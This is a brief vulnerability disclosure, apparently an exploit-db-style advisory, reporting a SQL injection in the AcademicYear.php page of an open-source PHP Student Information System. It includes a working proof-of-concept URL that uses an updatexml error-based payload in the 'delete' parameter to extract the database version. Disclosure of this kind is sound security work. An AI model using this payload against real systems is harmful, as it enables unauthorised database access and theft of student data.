

# Exploit Title:
The AcademicYear.php file in this Student Information System (SIS) contains an SQL blind injection vulnerability.

## Vendor Homepage:
https://github.com/ictslgti/sis

## Software Link:
https://github.com/ictslgti/sis

## Version:
The latest version

## Tested on:
PHP7.4.3nts Apache2.4.39 MySQL5.7.26

## Vulnerability Exploitation
After logging in, access academic/AcademicYear.php, then use the following POC to achieve SQL blind injection.
```
http://127.0.0.1/academic/AcademicYear.php?delete=1111%27%20and%20updatexml(1,concat(0x7e,(select%20version()),0x7e),3);%23
```
